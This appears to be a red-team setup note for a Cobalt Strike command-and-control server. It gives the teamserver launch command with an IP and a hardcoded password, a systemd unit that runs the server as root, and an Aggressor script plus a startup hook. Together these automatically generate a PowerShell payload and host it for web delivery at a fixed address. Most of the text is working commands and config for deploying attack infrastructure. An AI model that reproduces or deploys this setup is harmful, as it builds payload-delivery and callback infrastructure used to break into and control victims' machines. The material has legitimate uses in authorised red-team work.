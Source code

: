 # CobaltStrike startup
Two main components
- Server (on linux machine)
- Dashboard (on winzoz machine)

## Server
CobaltStrike server runs on linux machine, it can be started from folder `/opt/CobaltStrike/`
running the following command:
```
sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
```

where the IP is the linux machine IP where you want to listen to and the password will be used
with the CobaltStrike client to allow the connection
### Run as a Service
```
attacker@ubuntu ~> sudo vim /etc/systemd/system/teamserver.service
```
Then copy the following into that file
```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

[Install]
WantedBy=multi-user.target
```
type
```
sudo systemctl daemon-reload
```
and finally
```
sudo systemctl enable --now teamserver.service
```

## Dashboard
CobaltStrike client Dashboard runs on winzoz server, can be started just clicking on the icon
It will ask for IP, port and pass we set on the server

# CobaltStrike usage
It is so important the `listener` view available in the `CobaltStrike` menu and
the running `Web Delivery` available on `attack -> WebDrive-by -> Manage` that
will show a list of listening Web Delivery

# Headless CobaltStrike
It allows to automatically start hosts when teamserver starts.
Create host_payloads.cna file in CobaltStrike folder (/home/attacker/cobaltstrike) with following content:
```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("HTTP_LISTENER_NAME", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```
create following script (start_host.sh) in the same folder to automatically add the host to cobaltstrike:
```
#!/bin/sh

cd /home/attacker/cobaltstrike
./agscript 127.0.0.1 50050 headless p@ss host_payloads.cna
```
and assign execution permissions (chmod a+x start_host.sh)
finally add the following record to execute the previous script once the team server is started
```
ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/start_host.sh &'
```
